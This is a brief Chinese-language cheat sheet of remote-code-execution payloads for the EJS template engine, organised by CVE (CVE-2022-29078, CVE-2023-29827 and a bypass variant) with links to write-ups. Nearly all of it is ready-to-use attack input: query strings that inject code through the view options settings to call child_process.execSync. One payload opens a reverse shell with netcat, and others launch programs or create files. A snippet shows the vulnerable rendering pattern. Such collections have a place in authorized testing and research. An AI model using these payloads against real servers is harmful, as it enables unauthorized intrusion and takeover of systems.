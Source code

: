 ## CVE-2022-29078
适用条件
> ejs <= 3.1.6

[Ejs模板引擎注入实现RCE - 先知社区](https://xz.aliyun.com/t/12323#toc-9)<br />[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
```python
http://localhost:3000/page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
```

## CVE-2023-29827
适用条件
> ejs <= 3.1.9

[EJS@3.1.9 has a server-side template injection vulnerability (Unfixed) · Issue #735 · mde/ejs](https://github.com/mde/ejs/issues/735)
```python
http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```
# 另外一个Payload
适用条件
> ejs <= 3.1.9

[ejs RCE CVE-2022-29078 bypass - inHann的博客 | inHann’s Blog](https://inhann.top/2023/03/26/ejs/)
```python
?settings[view%20options][escapeFunction]=console.log;this.global.process.mainModule.require(%27child_process%27).execSync("touch /tmp/3.txt");&settings[view%20options][client]=true
```
```javascript
o = {
  "settings":{
    "view options":{
      "escapeFunction":'console.log;this.global.process.mainModule.require("child_process").execSync("touch /tmp/pwned");',
      "client":"true"
    }
  }
}

app.get("/test",function (req,resp){
  return resp.render("test",o);
})
```
